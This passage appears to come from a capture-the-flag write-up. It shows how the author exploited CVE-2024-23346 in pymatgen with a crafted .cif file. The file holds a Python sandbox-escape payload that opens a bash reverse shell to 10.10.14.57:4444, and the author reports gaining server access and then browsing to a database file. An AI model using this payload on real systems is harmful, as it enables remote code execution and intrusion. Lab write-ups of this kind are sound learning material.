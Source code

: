 After some searches i found this resource:
https://ethicalhacking.uk/cve-2024-23346-arbitrary-code-execution-in-pymatgen-via-insecure/#gsc.tab=0

So generate a reverse shell exploit appending these lines to example file:

```python
_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'sh -i >& /dev/tcp/10.10.14.57/4444 0>&1\'");0,0,0'
_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

After uploading the modified .cif file and clicking the "view" button, a reverse shell connection was established, allowing access to the server.
![](attachment/98544c9579f85dbaff4467d330a40405.png)

Once in I browsed trough folders and found a .db file in **/instance**:

![](attachment/a07416b7d39814bf65a972ab67ce98cb.png)
